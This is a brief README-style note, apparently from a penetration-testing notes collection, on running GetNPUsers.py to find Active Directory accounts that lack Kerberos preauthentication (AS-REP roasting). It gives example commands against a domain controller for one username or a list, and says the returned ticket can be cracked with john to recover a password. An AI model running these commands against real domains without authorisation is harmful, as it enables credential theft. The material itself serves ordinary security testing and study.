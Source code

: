 https://www.youtube.com/watch?v=pZSyGRjHNO4

This script check if the user you specify has the `Do not require Kerberos preauthentication` property set. 

(This means these accounts are vulnerable to ASREP Roasting)

---

You will need to provide a username. 
`python3 GetNPUsers.py -dc-ip 192.168.1.105 DOMAIN.local/username`


If you want to provide a list of names 
```
python3 GetNPUsers.py -dc-ip 192.168.1.105 DOMAIN.local/  -usersfile users.txt
```

---

It will spit out TGT (ticket granting ticket) for that user if vulnerable. 

The TGT can actually be cracked for a password using john